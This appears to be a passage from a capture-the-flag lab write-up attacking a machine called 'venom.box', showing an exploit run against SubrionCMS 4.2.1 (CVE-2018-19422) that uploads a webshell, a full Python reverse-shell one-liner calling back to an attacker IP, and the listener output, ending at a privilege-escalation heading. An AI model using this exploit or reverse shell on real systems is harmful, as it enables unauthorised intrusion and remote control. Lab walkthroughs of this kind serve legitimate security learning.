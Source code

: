 on displaying help it requries three parameters

```python
python 49876.py -h 
Usage: 49876.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Base target uri http://target/panel
  -l USER, --user=USER  User credential to login
  -p PASSW, --passw=PASSW
                        Password credential to login
```

```python
python 49876.py --user dora --passw E7r9t8@Q#h%Hy+M1234 --url http://venom.box/panel/
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://venom.box/panel/
[+] Success!
[+] Got CSRF token: f3Zfv8MPWS5JIsrlAVEu9dBU16PKcS1XaYpEN56k
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: brcqrekpvehxsux

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://venom.box/panel/uploads/brcqrekpvehxsux.phar 

$ which bash 
/bin/bash

```

now we are into machine , tried to spawn the interactive shell with python ttyl but it is not spawing the shell so lets execute the python reverse shell  

```
export RHOST="10.0.2.93";export RPORT=80;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

this returned us the new python shell 

```
listening on [any] 80 ...
connect to [10.0.2.93] from (UNKNOWN) [10.0.2.96] 41916
$ whoami
whoami
www-data
```
# PrivilageEsclation 
